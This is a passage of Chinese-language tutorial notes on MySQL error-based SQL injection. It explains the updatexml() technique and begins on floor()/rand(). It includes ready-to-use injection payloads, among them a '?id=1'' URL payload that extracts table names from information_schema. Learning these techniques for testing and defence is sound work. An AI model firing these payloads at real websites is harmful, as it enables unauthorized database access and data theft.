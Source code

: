 其他爆库，爆字段，爆数据库值等更改SQL语句即可

### updatexml()
函数语法：`updatexml(XML_document,XPath_String,new_value)`
适用范围：5.1.5+
报错原理:
Xpath格式语法书写错误的话，就会报错，同extractValue()
```sql
-- payload
updatexml(1,concat(0x23,user(),0x23),1)
?id=1' and updatexml(1,mid(concat(0x23,(SELECT group_concat(table_name) from information_schema.tables where table_schema = database()),0x23),1,32),1)--+
```
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_15_6W53B7nt.png)

### floor报错
相关函数：

- floor() 函数，向下取整
- rand() 函数，取随机数，若有参数x，则每个x对应一个固定的值，如果连续多次执行会变化，但是可以预测
- floor( rand( 0 ) * 2 ) 产生的序列为011011...



![image.png](./MySQL注入基础.assets/2023_05_19_10_41_15_usYgtDEG.png)
